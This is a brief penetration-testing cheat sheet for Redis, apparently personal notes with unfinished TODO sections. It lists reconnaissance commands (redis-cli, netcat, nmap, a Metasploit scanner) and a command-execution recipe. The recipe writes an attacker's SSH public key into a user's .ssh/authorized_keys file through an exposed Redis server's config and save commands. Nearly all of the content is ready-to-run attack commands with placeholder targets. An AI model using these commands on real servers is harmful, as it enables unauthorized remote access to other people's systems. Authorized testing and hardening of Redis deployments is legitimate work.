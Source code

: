# Redis

TODO: Fill this info

## 01 - Banner Grab

### 1.1 - Redis CLI

```
$ sudo apt install -y redis-tools

$ redis-cli -h <IP>
```

### 1.2 - Netcat

```
$ nc -vn <IP> 6379
```

```
$ nmap -p 6379 -Pn -n -sV --script 6379 <IP>
```

```
msf > use auxiliary/scanner/redis/redis_server

msf auxiliary(scanner/redis/redis_server) > options
```

## 02 - Command Execution

TODO: Re-arrange it in initial foothold

```
$ ssh-keygen -qt rsa -b 4096 -f /tmp/id_rsa -C '' -N ''

$ (echo -e "\n\n"; cat /tmp/id_rsa.pub; echo -e "\n\n") > implant.txt

$ redis-cli -h <IP> -x set crackit

<target_IP>:6379> config set dir /home/<username>/.ssh/
OK
<target_IP>:6379> config set dbfilename "authorized_keys"
OK
<target_IP>:6379> save
OK
```

---
## References

### Hacktricks

 - [Hacktricks: Pentesting Redis](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html)